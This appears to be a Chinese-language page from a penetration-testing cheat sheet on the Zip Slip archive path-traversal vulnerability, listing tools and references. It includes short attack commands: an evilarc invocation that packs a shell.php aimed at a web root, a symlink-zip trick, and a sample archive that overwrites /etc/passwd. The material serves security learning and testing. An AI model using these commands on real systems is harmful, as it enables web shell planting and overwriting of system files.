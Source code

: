 # Zip Slip

> 该漏洞利用精心构造的存档文件（例如 ../../shell.php）来实现目录遍历攻击。Zip Slip 漏洞可以影响多种存档格式，包括 tar、jar、war、cpio、apk、rar 和 7z。攻击者随后可以覆盖可执行文件，并通过远程触发或等待系统或用户调用它们，从而在受害者的机器上实现远程命令执行。

## 总结

* [工具](#工具)
* [方法论](#方法论)
* [参考文献](#参考文献)

## 工具

* [ptoomey3/evilarc](https://github.com/ptoomey3/evilarc) - 创建可以利用目录遍历漏洞的 tar/zip 存档文件
* [usdAG/slipit](https://github.com/usdAG/slipit) - 用于创建 ZipSlip 存档文件的实用程序

## 方法论

Zip Slip 漏洞是一种关键的安全缺陷，影响到对存档文件（如 ZIP、TAR 或其他压缩文件格式）的处理。此漏洞允许攻击者将任意文件写入目标提取目录之外的位置，可能覆盖关键系统文件、执行恶意代码或未经授权访问敏感信息。

**示例**：假设攻击者创建了一个具有以下结构的 ZIP 文件：

```ps1
malicious.zip
  ├── ../../../../etc/passwd
  ├── ../../../../usr/local/bin/malicious_script.sh
```

当一个易受攻击的应用程序解压 `malicious.zip` 时，文件会被写入 `/etc/passwd` 和 `/usr/local/bin/malicious_script.sh` 而不是被限制在提取目录中。这可能导致严重后果，例如破坏系统文件或执行恶意脚本。

* 使用 [ptoomey3/evilarc](https://github.com/ptoomey3/evilarc)：

    ```python
    python evilarc.py shell.php -o unix -f shell.zip -p var/www/html/ -d 15
    ```

* 创建包含符号链接的 ZIP 存档文件：

    ```ps1
    ln -s ../../../index.php symindex.txt
    zip --symlinks test.zip symindex.txt
    ```

有关受影响的库和项目的列表，请访问 [snyk/zip-slip-vulnerability](https://github.com/snyk/zip-slip-vulnerability)

## 参考文献

* [Zip Slip - Snyk - 2018 年 6 月 5 日](https://github.com/snyk/zip-slip-vulnerability)
* [Zip Slip 漏洞 - Snyk - 2018 年 4 月 15 日](https://snyk.io/research/zip-slip-vulnerability)